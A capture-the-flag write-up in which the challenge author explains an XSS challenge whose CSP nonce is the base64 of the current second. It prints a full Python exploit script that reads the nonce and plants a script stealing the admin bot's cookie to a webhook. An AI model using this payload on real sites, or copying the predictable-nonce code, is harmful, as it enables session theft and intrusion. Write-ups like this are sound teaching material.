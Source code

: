 The challenge is a XSS challenge with some CSP implementation. The web application involved has some simple features of creating a note, viewing it and reporting a note to the admin bot. The main aim is to steal the admin bot cookie. On analyzing the code, we can observe that the csp header is being added in the response allows only the scripts with nonce equal to the base64 encoded timestamp of current epoch time. 
```
def generate_nonce():
    timestamp = int(time.time()) // 1
    return base64.b64encode(str(timestamp).encode()).decode()

@app.before_request
def set_nonce():
    g.nonce = generate_nonce()

@app.context_processor
def inject_nonce():
    return dict(nonce=g.nonce)

@app.after_request
def add_csp(response):
    response.headers["Content-Security-Policy"] = f"default-src 'self' script-src 'nonce-{g.nonce}'"
    return response
```
Since the timestamp is integer divided by 1 so the timestamp is changing every second hence it is not possible to manually send a request with the correct nonce. So we need a automated script to do that. 
```
import requests, re
mysession = requests.Session()
BASE = 'http://127.0.0.1:5000'
BIN = '{link-of-your-webhook}'
mysession.post(f'{BASE}/register', data={'username':'u','password':'p'})
mysession.post(f'{BASE}/login', data={'username':'u','password':'p'})
header = mysession.get(f'{BASE}/create').headers['Content-Security-Policy']
nonce = re.search(r"script-src 'nonce-([^']+)'", header).group(1)
payload = f'''<script nonce="{nonce}">
              setTimeout(() => {{
              console.log("Cookie in DOM:", document.cookie);
              location = "{BIN}/?c=" + document.cookie;
              }}, 1000);
              </script>
            '''
mysession.post(f'{BASE}/create', data={'content': payload})
dash = mysession.get(f'{BASE}/dashboard').text
notes = re.findall(r'href="(/note\?Note=\d+)"', dash)
note = notes[-1]
note_url = 'http://app:5000' + note
mysession.post(
    f'{BASE}/report',
    data={
      'note_url': note_url,
      'submit':    'Report Note'
    }
)
print("Exploit sent.")
```
The script basically registers and logs in with some specified username and password. After that it reads the CSP header of /create page and use the nonce to first create a note containing the payload with the correct nonce and then send a post request to /report endpoint. Just as the bot visits our url, script will get executed and we will receive the cookie on our webhook.

The main intent of the challenge was to just check the code comprehension ability of the players and to check their skills in writing a working exploit script.
Since this was my first challenge, I did make a simple challenge to gain hands over challenge creation and I will try my best to make some better challenges in future.
